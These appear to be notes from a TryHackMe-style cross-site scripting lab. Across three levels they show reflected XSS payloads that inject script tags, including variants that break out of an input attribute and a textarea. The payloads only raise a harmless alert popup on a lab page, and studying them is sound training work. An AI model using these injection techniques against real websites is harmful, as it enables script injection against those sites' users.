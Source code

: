 
```
Level 1
Enter Your Name: jam
[Enter]


<div class="text-center">|
	<h2>Hello, jam</h2>
</div>
<div class="text-center">
	<div id="confirmxss">Confirming XSS Payload</div>
</div>
```

```
Level 1.5
Enter Your Name: <script>alert('THM');</script>
[Enter]

browser popup 'THM'
```


```
Level 2
Enter Your Name: jam
[Enter]

Hello, [jam]


<div class="text-center">
	<h2>Hello, <input value="jam"></h2>
</div>
<div class="text-center">
<div id="confirmxss">Confirming XSS Payload</div>
</div>


It wouldn't work if you were to try the previous JavaScript payload because you can't run it from inside the input tag. Instead, we need to escape the input tag first so the payload can run properly. You can do this with the following payload

"><script>alert('THM');</script>

window popup 'THM'
```


```
Level 3
Enter Your Name: jam
[Enter]

Hello, [jam        ]           textbox area

<div class="text-center">
	<h2>Hello, <textarea>jam</textarea></h2>
</div>
<div class="text-center">
	<div id="confirmxss">Confirming XSS Payload</div>
</div>


</textarea><script>alert('THM');</script>

popup 'THM'
```
